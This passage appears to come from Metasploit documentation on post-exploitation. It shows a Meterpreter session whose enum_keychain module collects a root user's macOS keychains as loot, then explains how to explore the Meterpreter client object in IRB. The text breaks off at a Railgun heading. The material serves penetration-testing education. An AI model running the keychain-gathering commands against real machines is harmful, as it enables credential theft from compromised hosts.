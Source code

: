 ```
meterpreter > run post/osx/gather/enum_keychain 

[*] The following keychains for root were found:
    "/Users/sinn3r/Library/Keychains/login.keychain"
    "/Library/Keychains/System.keychain"
[+] 192.168.1.209:58023 - Keychain information saved in /Users/sinn3r/.msf4/loot/20160705211412_http_192.168.1.209_macosx.keychain._271980.txt
meterpreter > 
```

## Using the Post Exploitation API in IRB

To enter IRB, do the following at the Meterpreter prompt:

```
meterpreter > irb
[*] Starting IRB shell
[*] The 'client' variable holds the meterpreter client

>> 
```

**The client object**

The client object in Meterpreter allows you to control or retrieve information about the host. For
example, this allows you to get the current privilege our payload is running as:

```
>> client.sys.config.getuid
=> "root"
```

To explore the client object, there are a few tricks. For example, you can use the #inspect method
to inspect it:

```
>> client.inspect
```

You can also use the #methods method to see what methods you can use:

```
>> client.methods
```

To review the source of the method, you can use the #source_location method. For example, say we
want to see the source code for the #getuid method:

```
>> client.sys.config.method(:getuid).source_location
=> ["/Users/sinn3r/rapid7/msf/lib/rex/post/meterpreter/extensions/stdapi/sys/config.rb", 32]
```

The first element of the array is the location of the file. The second is the line number of
the method.

**Railgun**
